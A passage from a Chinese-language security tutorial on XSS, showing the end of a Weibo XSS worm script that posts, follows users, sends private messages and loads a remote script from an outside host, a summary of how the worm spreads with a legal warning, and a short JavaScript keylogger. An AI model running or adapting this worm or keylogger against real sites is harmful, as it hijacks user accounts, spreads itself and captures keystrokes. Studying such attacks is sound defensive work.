 ```javascript
    }
}
function main(){
    try{
        publish(); //模拟发表微博
    }
    catch(e){}
    try{
        follow(); //模拟关注用户
    }
    catch(e){}
    try{
        message(); //模拟发送私信
    }
    catch(e){}
}
try{
    //在当前 body 尾部插入存放在远端的 Xss 恶意脚本
   x="g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)";window.opener.eval(x);
}
catch(e){}
main();
var t=setTimeout('location="http://weibo.com/pub/topic";',5000);
//等待 5 秒跳转到微话题页面
```

我总结了该 XSS 蠕虫的攻击流程：

1. 利用 XSS 漏洞插入恶意 JS 代码；

2. 利用 XMLHttpRequest 发送请求去发表微博、关注用户、获取关注者列表并向其发送私信；

3. 微博消息和私信都包含有恶意攻击链接，等于实现了攻击代码的自我复制和传播。

由此可见，一个完整的 XSS 蠕虫常常具备如下特征：

* 目标网站存在 XSS 漏洞；

* 攻击代码的自我复制和传播，其传播方式依赖于业务场景，更多是在社交功能上，比如博客、私信、微博、评论。

**声明：在互联网上传播 XSS 蠕虫属于违法行为，即使是处于合法的渗透测试任务，也该严格控制传播的可能性，否则出现失控，仍需承担法律责任**。

#### 其他攻击方法

在 XSS 漏洞攻击场景下，凡是 JavaScript 能够实现功能，你都可以自由发挥，实现不同的攻击方法。

比如键盘记录：

```javascript
keys = ""
document.onkeypress = function(){
  keys += String.fromCharCode(window.event.keyCode);
}
```
